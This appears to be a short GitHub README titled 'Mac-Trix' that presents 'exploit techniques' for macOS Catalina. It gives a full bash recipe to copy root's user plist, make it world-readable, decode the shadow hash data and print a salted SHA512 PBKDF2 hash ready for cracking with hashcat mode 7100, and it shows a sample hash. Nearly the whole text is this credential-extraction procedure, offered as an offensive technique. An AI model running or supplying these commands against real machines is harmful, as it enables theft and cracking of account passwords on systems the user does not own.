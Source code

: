 # Mac-Trix
Exploit techniques for Macintosh

## >> Cracking password hashes from macOS Catalina

The salted SHA512 PBKDF2 password hashes are stored in a property list file.  This example shows the bash commands to extract the hash for the root user.

```
sudo cp /var/db/dslocal/nodes/Default/users/root.plist /tmp/root.plist

sudo chmod 666 /tmp/root.plist

plutil -convert xml1 /tmp/root.plist

cat /tmp/root.plist | tr -d '\t\n' | grep -oE 'ShadowHashData</key><array><data>.+?</data>' | cut -c 34- | sed 's/<\/data>//' | base64 -d > /tmp/root.shd.plist

plutil -convert xml1 /tmp/root.shd.plist

shdarray=( $(cat /tmp/root.shd.plist | tr -d '\t\n' | grep -oE 'SALTED-SHA512-PBKDF2.+?</dict>' | sed 's/SALTED-SHA512-PBKDF2<\/key><dict><key>entropy<\/key><data>//' | sed $'s/<\/data><key>iterations<\/key><integer>/\\\n/' | sed $'s/<\/integer><key>salt<\/key><data>/\\\n/' | sed 's/<\/data><\/dict>//') )

echo -n '$ml$'; echo -n ${shdarray[1]}; echo -n '$'; echo -n $(echo ${shdarray[2]} | base64 -d | xxd -p -c 1000); echo -n '$'; echo $(echo ${shdarray[0]} | base64 -d | xxd -p -c 1000 | cut -c 1-128)
```

You should see some output similar to this:<br />
`$ml$64516$6ff4252516fbc7c3fb7c31f97f9fb9c051be0ac362414c9d75a4b7d9740aa6e6$10e9050de20e43a86969065397a9d00e56d4601c734f32e6c97100bccd57153b5cb4e3ae59e44e09e5f4876b4ede94a5ecd0a7de09f32feab9a42baf3e5aed44`

Feed the above output into hashcat using mode 7100.
